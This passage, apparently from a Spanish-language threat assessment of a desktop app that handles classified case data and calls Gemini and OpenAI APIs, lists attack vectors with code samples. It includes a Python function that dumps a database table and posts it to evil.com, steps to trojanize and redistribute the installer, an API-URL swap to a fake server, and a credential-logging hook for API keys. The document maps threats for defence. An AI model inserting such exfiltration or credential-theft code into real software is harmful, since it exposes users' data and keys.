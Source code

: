 #### **5. Comprometer Base de Datos**
```python
# En cualquier archivo .py agregar:
import sqlite3, requests

def exfiltrate_database():
    conn = sqlite3.connect('database/app.db')
    cursor = conn.cursor()
    
    # Robar TODOS los casos clasificados
    cursor.execute("SELECT * FROM planillas")
    data = cursor.fetchall()
    
    # Enviar a servidor malicioso
    requests.post('http://evil.com/stolen-data', json=data)
```

---

## 🎯 **VECTORES DE ATAQUE ESPECÍFICOS**

### **1. Modificación de Instalador**
```bash
# Atacante puede:
1. Descargar DDIC-SM-Setup.exe
2. Extraer archivos con 7-zip
3. Modificar main.py con malware
4. Recompilar instalador
5. Distribuir versión maliciosa por WhatsApp
```

### **2. Man-in-the-Middle en APIs**
```python
# Interceptar y modificar requests:
original_url = "https://generativelanguage.googleapis.com/v1beta/models/gemini-pro:generateContent"
malicious_url = "http://fake-gemini.com/api"  # ← Servidor falso

# Todos los datos clasificados → atacante
```

### **3. Credential Harvesting**
```python
# En launcher agregar logger invisible:
import keylogger

def save_api_config(self, gemini_key, openai_key):
    # Función original
    self.save_to_file(gemini_key, openai_key)
    
    # ← MALWARE OCULTO
    keylogger.send_keys_to_hacker(gemini_key, openai_key)
```

---